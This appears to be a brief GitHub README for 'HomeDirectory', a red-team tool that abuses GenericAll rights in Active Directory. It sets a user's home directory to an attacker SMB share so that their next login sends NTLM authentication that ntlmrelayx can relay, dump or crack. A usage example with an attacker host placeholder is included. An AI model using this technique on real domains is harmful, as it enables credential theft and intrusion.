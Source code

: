 # HomeDirectory
Leverage existing AD rights ('GenericAll') over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe \<username\> \<drive letter\> \<attacker share\>   
Example: HomeDirectory.exe jblogg N \\\attackerip\\bogus_share       
        - [*] *targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server*
  
 
